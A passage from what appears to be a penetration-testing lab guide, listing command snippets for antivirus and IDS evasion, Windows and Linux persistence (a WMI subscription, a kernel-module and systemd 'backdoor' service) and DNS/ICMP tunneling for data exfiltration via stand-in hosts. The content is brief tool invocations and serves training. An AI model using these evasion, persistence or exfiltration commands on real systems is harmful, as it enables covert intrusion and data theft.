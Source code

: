 1. **AV Evasion**
   ```bash
   # Veil Framework
   ./Veil.py
   
   # Shellter
   shellter -a -f legitimate.exe -p custom_payload
   ```

2. **IDS/IPS Evasion**
   ```bash
   # Traffic Fragmentation
   fragroute 192.168.1.100
   
   # Protocol Tunneling
   dns2tcp -L 0.0.0.0:53 -R target:80
   ```

## Lab 4: Advanced Post Exploitation

### A. Advanced Persistence

1. **Windows Persistence**
   ```powershell
   # WMI Event Subscription
   $Filter = Set-WmiInstance -Class __EventFilter ...
   $Consumer = Set-WmiInstance -Class CommandLineEventConsumer ...
   Set-WmiInstance -Class __FilterToConsumerBinding ...
   ```

2. **Linux Persistence**
   ```bash
   # Kernel Module Backdoor
   insmod backdoor.ko
   
   # Systemd Service
   cat > /etc/systemd/system/backdoor.service << EOF
   [Unit]
   Description=Backdoor Service
   
   [Service]
   ExecStart=/usr/local/bin/backdoor
   
   [Install]
   WantedBy=multi-user.target
   EOF
   ```

### B. Data Exfiltration

1. **Covert Channels**
   ```bash
   # DNS Tunneling
   iodine -f 192.168.1.1 tunnel.com
   
   # ICMP Tunneling
   ptunnel -p 192.168.1.1 -lp 8000 -da target.com -dp 80
   ```
